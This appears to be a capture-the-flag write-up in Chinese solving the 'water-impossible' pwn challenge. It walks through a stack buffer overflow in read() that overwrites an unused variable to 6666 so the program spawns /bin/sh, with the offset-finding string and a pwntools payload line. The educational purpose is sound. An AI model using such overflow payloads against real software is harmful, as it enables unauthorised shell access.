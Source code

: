 # water-impossible

> Challenge Link: [water-impossible](http://ctf.bamboofox.cs.nctu.edu.tw/challenges#water-impossible)
>
> Category: pwn

Welcome !! Challenger ~

Here is a simple challenge for you.

Try to find the key to pass.

`nc bamboofox.cs.nctu.edu.tw 58799`

[water-impossible.zip](http://ctf.bamboofox.cs.nctu.edu.tw/files/bb63dedd19b55a8fab5a08f28dea6269/water-impossible.zip)

## 觀察

觀察一下code後可以發現觸發`system("/bin/sh")`的條件為`(int)token == 6666`

而token是一個宣告在`main`但從未被使用到的變數

```c
if((int)token == 6666){
  printf("wow, That's impossible to touch this token ?!");
  system("/bin/sh");
}
```

另外可以被exploit的部份為`read()`的 buffer overflow

```c
char key[16];
read(0, key, 40);
```

通常這類ㄒㄧ可能的作法有以下兩種

### 蓋 return

如果stack一直往下蓋的話可以碰到`return`，那就直接跳到`system("/bin/sh")`就好了

不過這題有限制長度40，所以沒辦法蓋到return

### 蓋 token

因為`token`也是宣告在stack上，應該可以找到`token`的位置後直接蓋成想要的值

## 解法

以下解法是用蓋token的方法

### 找 paylod 長度

先輸入以下字串來定位

```
AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFF
```

到`if((int)token == 6666)`時 stack 狀態如下

![](https://i.imgur.com/0wDePvP.png)

上圖可以看到`token`的位置以及內容是`[rbp-0x4] : 0x7fffffffdf1c ("DDDDEEEEEEEE0آ\367\377\177")`

由此可知到`token`之前，所需要的 payload 長度是 **28** ，也就是

```
AAAAAAAABBBBBBBBCCCCCCCCDDDD
```

### 蓋token的值

因為這支程式是在 **64位元** 的環境編譯的，所以送的時候要給64位元的位址，使用 pwntool 的話只要用`p64()`就可以囉

```python
r.sendline(payload + p64(0x1a0a))
```
